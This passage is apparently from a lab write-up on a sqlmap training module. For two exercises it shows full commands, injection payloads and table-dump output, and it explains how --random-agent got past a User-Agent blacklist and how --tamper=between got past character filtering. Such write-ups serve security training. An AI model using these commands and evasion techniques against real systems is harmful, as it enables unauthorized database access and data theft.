└─$ sqlmap -u 'http://154.57.164.66:38061/case10.php' -X POST --data="id=1*" --batch --dump -T flag10 --no-cast --random-agent
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:30 /2026-10-25/

[11:08:30] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:109.0) Gecko/20100101 Firefox/115.0' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[11:08:30] [INFO] resuming back-end DBMS 'mysql' 
[11:08:30] [INFO] testing connection to the target URL
[11:08:30] [INFO] testing if the target URL content is stable
[11:08:31] [INFO] target URL content is stable
[11:08:31] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[11:08:31] [INFO] (custom) POST parameter '#1*' appears to be dynamic
[11:08:31] [INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
—SNIP—
sqlmap identified the following injection point(s) with a total of 42 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2120=2120

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1 AND EXTRACTVALUE(4685,CONCAT(0x5c,0x716b707a71,(SELECT (ELT(4685=4685,1))),0x717a7a6b71))

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5106 FROM (SELECT(!SLEEP(5)))zUjc)

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b707a71,0x7344524179505a415a67715476784a72627558637571497274424e585657537079726d424e52707a,0x717a7a6b71),NULL,NULL,NULL,NULL,NULL-- -
---
[11:08:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[11:08:52] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:52] [INFO] fetching current database
[11:08:52] [INFO] fetching columns for table 'flag10' in database 'testdb'
[11:08:53] [INFO] fetching entries for table 'flag10' in database 'testdb'
Database: testdb
Table: flag10
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[11:08:53] [INFO] table 'testdb.flag10' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66/dump/testdb/flag10.csv'
[11:08:53] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 11:08:53 /2026-10-25/
```

**Breakdown of what changed:**

- `--random-agent` swaps SQLMap's own identifiable default `User-Agent` for a randomly chosen real browser value, which resolved the block

With `--random-agent` added, the page's protection was bypassed and the run succeeded cleanly from detection through to dump, confirming the target's defence was specifically blacklisting SQLMap's default `User-Agent`.

**Answer:** `—REDACTED—`

### Question 4 — What's the contents of table flag11? (Case #11)

Case #11 was titled "Case11 - Filtering of characters '<', '>'" and said it detects and exploits an SQLi vulnerability in GET parameter `id`.



Clicked through to `case11.php?id=1` and used Copy as cURL on the request.



The question's hint pointed at picking the appropriate tamper script based on what the page's title described. Since the protection filtered `<` and `>` specifically, `--tamper=between` was chosen, matching the section's teachings, where `between` replaces the greater-than operator (`>`) with `NOT BETWEEN 0 AND #` and the equals operator (`=`) with `BETWEEN # AND #`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap  'http://154.57.164.66:38061/case11.php?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.66:38061/case11.php' \
  -H 'Cookie: PHPSESSID=qth1vqe7bf07jvkjep21k7fdf6' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag11 --no-cast --tamper=between 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:12:35 /2026-10-25/

[11:12:35] [INFO] loading tamper module 'between'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[11:12:35] [INFO] testing connection to the target URL
[11:12:35] [INFO] checking if the target is protected by some kind of WAF/IPS
[11:12:35] [INFO] testing if the target URL content is stable
[11:12:36] [INFO] target URL content is stable
[11:12:36] [INFO] testing if URI parameter '#1*' is dynamic
[11:12:36] [INFO] URI parameter '#1*' appears to be dynamic
[11:12:36] [INFO] heuristic (basic) test shows that URI parameter '#1*' might be SQL injectable (possible DBMS: 'MySQL')
[11:12:36] [INFO] testing for SQL injection on URI parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[11:12:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:12:36] [WARNING] reflective value(s) found and filtering out
[11:12:36] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Bird")
—SNIP—
[11:12:38] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
[11:12:38] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)'
[11:12:38] [INFO] testing 'MySQL < 5.0.12 time-based blind - Parameter replace (BENCHMARK)'
[11:12:38] [INFO] testing 'MySQL > 5.0.12 time-based blind - Parameter replace (heavy query - comment)'
[11:13:15] [INFO] URI parameter '#1*' appears to be 'MySQL > 5.0.12 time-based blind - Parameter replace (heavy query - comment)' injectable 
[11:13:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[11:13:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[11:13:15] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:13:15] [INFO] target URL appears to have 9 columns in query
do you want to (re)try to find proper UNION column types with a fuzzy test? [Y/n] Y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[11:13:18] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
—SNIP—
[11:13:27] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 379 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://154.57.164.66:38061/case11.php?id=1 AND 7315=7315

    Type: time-based blind
    Title: MySQL > 5.0.12 time-based blind - Parameter replace (heavy query - comment)
    Payload: http://154.57.164.66:38061/case11.php?id=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)
---
[11:13:27] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[11:13:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[11:13:27] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:13:27] [INFO] fetching current database
[11:13:27] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:13:27] [INFO] retrieved: testdb
[11:13:28] [INFO] fetching columns for table 'flag11' in database 'testdb'
[11:13:28] [INFO] retrieved: 2
[11:13:29] [INFO] retrieved: id
[11:13:29] [INFO] retrieved: 0
[11:13:30] [INFO] retrieved: content
[11:13:32] [INFO] retrieved: 0
[11:13:32] [INFO] fetching entries for table 'flag11' in database 'testdb'
[11:13:32] [INFO] fetching number of entries for table 'flag11' in database 'testdb'
[11:13:32] [INFO] retrieved: 1
[11:13:32] [INFO] retrieved: —REDACTED—
[11:13:39] [INFO] retrieved: 1
Database: testdb
Table: flag11
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[11:13:39] [INFO] table 'testdb.flag11' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66/dump/testdb/flag11.csv'
[11:13:39] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.66'

[*] ending @ 11:13:39 /2026-10-25/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.66:38061/case11.php?id=1*'` is the target URL, with `*` marking the injection point
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the content of the specified table
- `-T flag11` specifies the `flag11` table
- `--no-cast` disables SQLMap's internal value casting during retrieval
- `--tamper=between` loads the `between` tamper script, which rewrites `=` and `>` into equivalent forms that avoid using the filtered `<`/`>` characters directly

The run noted `[WARNING] changes made by tampering scripts are not included in shown payload content(s)`, meaning the printed payloads in the output don't reflect the actual rewritten request sent on the wire — the tamper script's rewrite happens after that logging step. With the filtered characters avoided, the parameter tested as injectable and the dump completed successfully.

**Answer:** `—REDACTED—`